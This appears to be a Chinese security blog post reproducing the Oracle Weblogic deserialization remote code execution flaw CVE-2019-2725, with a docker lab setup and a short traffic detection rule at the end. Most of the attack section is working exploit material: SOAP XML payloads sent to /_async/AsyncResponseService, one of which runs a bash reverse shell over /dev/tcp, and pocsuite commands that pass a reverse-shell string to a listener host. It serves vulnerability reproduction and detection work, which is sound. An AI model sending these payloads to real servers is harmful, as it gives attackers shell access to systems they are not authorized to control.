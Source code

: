 ```yaml
---
layout: post
title:  "Weblogic 反序列化远程代码执行漏洞（CVE-2019-2725)" 
date:   2019-08-08 17:10:51
categories: Development
author: co0ontty
categories: 安全开发 漏洞复现 ALL
tags: 安全开发 漏洞复现 ALL
describe: Weblogic 反序列化远程代码执行漏洞（CVE-2019-2725)
cover: '/assets/img/posts/0d543f9aec58561aabc164648a1809d8.png'
---
```

## Weblogic 反序列化远程代码执行漏洞（CVE-2019-2725)

## 漏洞概述

由于在反序列化处理输入信息的过程中存在缺陷，未经授权的攻击者可以发送精心构造的恶意 HTTP 请求，利用该漏洞获取服务器权限，实现远程代码执行。

### 漏洞环境搭建

docker 快速启动：

```bash
docker pull ismaleiva90/weblogic12

docker run -d -p 7001:7001 -p 7002:7002 --restart=always ismaleiva90/weblogic12:latest
```

访问：ip:7001/_async/AsyncResponseService 查看 wls9-async 组件是否启动成功
![avatar](/assets/img/posts/20190426101059760.png)
nmap 检测插件 [weblogic.nse](https://github.com/Rvn0xsy/nse_vuln/tree/master/weblogic/CNVD-C-2019-4814) 


### 漏洞复现

#### Poc
* 通用无回显 poc

向/_async/AsyncResponseService 发送 XMLPoc，连接类型 content-type: text/xml：

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
<soapenv:Header>
<wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="POC">
<array class="xx" length="0">
</array>
<void method="start"/>
</void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body>
</soapenv:Envelope>
```

如果 res.status_code == 202 则可以判断存在漏洞

* 特定版本可回显 poc

向 /wls-wsat/CoordinatorPortType 传递恶意构建的 xml 请求可以触发回显信息。通过使用 ls 命令查看目录下是否存在 server bin 等必要目录，如果存在这些必要目录，则判定 poc 执行成功
Version = 10.*
```html
header:
"Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
"User-Agent": "Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50",
"Content-Type": "text/xml",
"cmd": "whoami"
body:
参考下面 pocsuite poc 部分
```
Version = 12
```html
header:
"Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
"User-Agent": "Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50",
"Content-Type": "text/xml"
body：
参考下面 pocsuite poc 部分
```


#### Exp
* exp_for_asy

向/_async/AsyncResponseService 发送 XMLPoc，连接类型 content-type: text/xml：

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
<soapenv:Header> 
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/ip/port 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```
* exp_for_wls
参考下面 pocsuite exp 部分
#### Pocsuite
* poc

[poc.py](https://github.com/co0ontty/CVE-2019-2725-pocsuite/blob/master/poc.py)
```bash
pocsuite -r poc.py -u 172.16.5.162 
```
* exp

[exp.py](https://github.com/co0ontty/CVE-2019-2725-pocsuite/blob/master/exp.py)
```bash
pocsuite -r exp.py -u 172.16.5.162 --extra-params="{'cmd':'bash -i &gt;&amp; /dev/tcp/172.16.5.1/1136 0&gt;&amp;1'}"
```

### 流量检测

规则：通过检测目标对 /_async/AsyncResponseService 目录的请求，确定目标请求使用存在漏洞的组件，如果在对 /_async/AsyncResponseService 的请求中存在 content-type 为 ‘text/xml’ 的请求且请求内容存在  `<soapenv><soapenv/>` (\<soapenv>用于创建自定义命名空间)则判定存在攻击行为 

